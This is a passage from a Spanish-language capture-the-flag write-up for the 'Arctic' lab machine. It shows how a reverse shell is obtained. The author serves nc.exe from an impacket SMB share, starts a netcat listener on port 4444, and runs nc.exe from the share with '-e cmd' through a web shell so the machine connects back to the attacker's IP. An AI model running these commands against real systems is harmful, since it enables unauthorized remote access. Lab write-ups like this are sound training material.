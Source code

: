 Una vez hecho esto ya podremos `ejecutar comandos`

![](/assets/img/Arctic/image_14.png)
## Intrusión

Para obtener `acceso` a la `máquina víctima` lo vamos a hacer mediante `netcat`, para ello nos `copiamos` el `binario` en el `directorio actual` de trabajo

```
# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos `montamos` un `servidor smb`

```
# impacket-smbserver $(pwd) smbFolder -smb2support
```

Nos ponemos en `escucha` con `netcat` por el `puerto 4444`

```
# nc -nlvp 4444
```

En la `shell` de la web `ejecutamos` este `comando`

```
\\10.10.16.35\smbFolder\nc.exe -e cmd 10.10.16.35 4444
```
